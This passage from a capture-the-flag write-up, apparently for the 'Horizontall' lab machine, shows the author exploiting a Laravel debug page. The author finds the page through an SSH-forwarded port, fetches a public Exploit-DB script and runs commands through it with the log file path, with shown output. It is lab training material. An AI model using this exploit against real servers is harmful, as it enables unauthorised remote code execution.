 Something in feroxbuster killed the SSH connection. But it had time to find a `/profiles` endpoint. I opened `http://localhost:2222/profiles` and it gave me an error page, with a full stack trace. 

![Laravel Error](/assets/images/2022/06/Horizontall/LaravelError.png "Laravel Error")

I found a nice [post](https://www.ambionics.io/blog/laravel-debug-rce) that explained how to use the Laravel Debug page to reset the log file, write some code into it and execute it as a PHAR. I also found some [Python code](https://www.exploit-db.com/exploits/49424) for the exploit. 

I needed the full path of the log file to run the exploit. The application path was provided in the stack trace, so I just had to add `storage/logs/laravel.log` to it.

I downloaded the exploit and tried to use it to run `id`, it did not return anything. 

```bash
$ python 49424.py http://localhost:2222 /home/developer/myproject/storage/logs/laravel.log 'id'

Exploit...
```

I tried to list the current directory, and that worked. 

```bash
➜  Horizontall
$ python 49424.py http://localhost:2222 /home/developer/myproject/storage/logs/laravel.log 'ls -la'

Exploit...

total 24
drwxrwxr-x  2 developer developer 4096 Nov 17  2020 .
drwx------ 12 developer developer 4096 May 26  2021 ..
-rw-rw-r--  1 developer developer    0 Nov 17  2020 favicon.ico
-rw-rw-r--  1 developer developer  603 Nov 17  2020 .htaccess
-rw-rw-r--  1 developer developer 1731 Nov 17  2020 index.php
-rw-rw-r--  1 developer developer   24 Nov 17  2020 robots.txt
-rw-rw-r--  1 developer developer 1194 Nov 17  2020 web.config
```
